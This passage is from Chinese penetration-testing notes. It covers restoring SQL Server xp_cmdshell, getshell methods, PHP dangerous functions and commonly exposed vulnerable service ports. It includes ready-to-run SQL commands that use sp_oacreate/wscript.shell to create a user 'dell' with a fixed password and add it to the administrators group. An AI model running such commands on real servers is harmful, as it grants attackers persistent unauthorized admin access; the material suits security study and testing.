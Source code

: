 ```basic
来恢复 cmdshell 
```

#### 3. 无法在库 xpweb70.dll 中找到函数 xp_cmdshell。

```basic
原因: 127(找不到指 定的程序。) 
恢复方法：查询分离器连接后, 
第一步执行:exec sp_dropextendedproc xp_cmdshell 
第二步执行:exec sp_addextendedproc xp_cmdshell,xpweb70.dll 
然后按 F5 键命令执行完毕 
```

#### 4. 终极方法,如果以上方法均不可恢复,直接添加帐户: 
```basic
查询分离器连接后, 
2000servser 系统: 
declare @shell int exec sp_oacreate wscript.shell,@shell output exec sp_oamethod @shell,run,null,c:winntsystem32cmd.exe /c net user dell huxifeng007 /add 

declare @shell int exec sp_oacreate wscript.shell,@shell output exec sp_oamethod @shell,run,null,c:winntsystem32cmd.exe /c net localgroup administrators dell /add 
sql2008 提权 低权限运行 
```


### Getshell的几种方式
![](https://cdn.nlark.com/yuque/0/2021/png/3013360/1627856179822-bc47dfb1-c979-40c0-9c10-37ca23366931.png#averageHue=%23ebe5ed&clientId=ub6d6eee3-3dce-4&from=paste&id=u1c8d34d3&originHeight=748&originWidth=1846&originalType=url&ratio=1&rotation=0&showTitle=false&status=done&style=none&taskId=udc1172d2-22e0-465b-94a9-aad1ab24200&title=)
引用：[https://xz.aliyun.com/t/7500](https://xz.aliyun.com/t/7500)

### 冰蝎和哥斯拉实现原理


### 代码执行、文件读取、命令执行的函数有哪些
```basic
代码执行：

eval,preg_replace+/e,assert,call_user_func,call_user_func_array,create_function

2）文件读取：

file_get_contents(),highlight_file(),fopen(),read file(),fread(),
fgetss(), fgets(),parse_ini_file(),show_source(),file()

3)命令执行：

system(), exec(), shell_exec(), passthru() ,pcntl_exec(), popen(),proc_open()
```

### 特殊服务漏洞(未授权/命令执行类/漏洞)
> 443 SSL心脏滴血 
> 873 Rsync未授权 
> 5984 CouchDB http://xxx:5984/_utils/ 
> 6379 redis未授权 
> 7001,7002 WebLogic默认弱口令，反序列 
> 9200,9300 elasticsearch ElasticSearch命令执行漏洞 
> 11211 memcache未授权访问 
> 27017,27018 Mongodb未授权访问 
> 50000 SAP命令执行 
> 50070,50030 hadoop默认端口未授权访问
